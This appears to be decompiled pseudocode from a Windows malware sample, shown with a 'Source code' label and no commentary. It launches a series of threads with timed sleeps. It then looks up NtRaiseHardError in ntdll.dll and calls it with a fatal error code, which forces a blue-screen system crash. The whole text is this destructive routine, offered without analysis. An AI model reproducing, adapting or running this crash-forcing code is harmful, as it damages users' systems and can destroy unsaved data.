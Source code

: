 ```
esi = imp.CreateThread;

eax = void (*esi)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402660, 0, 0, 0);

edi = eax;

eax = void (*esi)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.004028c0, 0, 0, 0);

esi = eax;

Sleep (0x7530);

edi = imp.TerminateThread;

void (*edi)(uint32_t, uint32_t) (edi, 0);

void (*edi)(uint32_t, uint32_t) (esi, 0);

void (*ebx)(uint32_t, uint32_t, uint32_t) (0, 0, 0);

ebx = imp.CreateThread;

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402350, 0, 0, 0);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.004024d0, 0, 0, 0);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.004027a0, 0, 0, 0);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402660, 0, 0, 0);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.004028c0, 0, 0, 0);

esi = imp.Sleep;

void (*esi)(uint32_t) (KERNEL32.dll_Sleep);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402ce0, 0, 0, 0);

void (*esi)(uint32_t) (0x3a98);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402a50, 0, 0, 0);

void (*esi)(uint32_t) (0x7530);

eax = GetModuleHandleW ("ntdll.dll", 0);

if (eax != 0) {

eax = GetProcAddress (eax, "NtRaiseHardError");

void (*eax)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0xdeaddead, 0, 0, 0, 6, lpNumberOfBytesWritten);

}
```